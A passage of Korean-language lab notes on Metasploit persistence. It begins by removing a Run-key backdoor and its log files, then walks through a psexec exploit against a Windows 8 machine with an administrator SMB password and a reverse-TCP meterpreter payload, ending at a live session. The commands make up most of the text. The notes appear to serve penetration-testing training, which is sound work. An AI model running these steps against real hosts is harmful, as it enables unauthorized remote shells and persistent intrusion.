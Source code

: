 ```jsx
meterpreter > reg deleteval -k "registry 경로" -v "파일이름" //[+]옆의 경로 복사 

ex) 
meterpreter > reg deleteval -k "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -v "yRcLXouIih"
```

3) Local file 제거

```jsx
ex)
root@kali: cd /root/.msf4/logs/persistence  
root@kali:~/.msf4/logs/persistence rm -rf MINJI-Y560ZLU1S_20200720.0504/
```

Backdoor 제거 완료 

### 실습 3 (windows 8에서 persistence 모듈 실행)

네트워크 상태 확인 및 공격 IP를 확인한 후 메타스플로잇 실행

```jsx
root@kali: ~# msfconsole
```

우리는 psexec 를 사용할 것이다. 

psexec을 검색하여 알맞은 exploit 명령어를 이용하고 payload 도 설정해준다.

```jsx
msf > search psexec
msf > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp_allports
```

옵션을 열고 비어있는 부분을 설정해주자

```jsx
msf5 exploit(windows/smb/psexec) > show options
msf5 exploit(windows/smb/psexec) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
msf5 exploit(windows/smb/psexec) > set smbuser administrator
msf5 exploit(windows/smb/psexec) > set smbpass [password]
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5b3e4d44-f248-47c3-b119-f47d23e3c0a6/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5b3e4d44-f248-47c3-b119-f47d23e3c0a6/Untitled.png)

모든 설정을 완료 했으면 실행시키자

```jsx
msf5 exploit(windows/smb/psexec) > run
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/62c4b24d-d42f-4c37-9821-cde99b77b4a0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/62c4b24d-d42f-4c37-9821-cde99b77b4a0/Untitled.png)

이제 우리는 윈도우 8의 미터프리터 세션을 가지게 되었다.
'sysinfo' 명령어를 이용하여 시스템을 확인해보자

```jsx
meterpreter > sysinfo
```
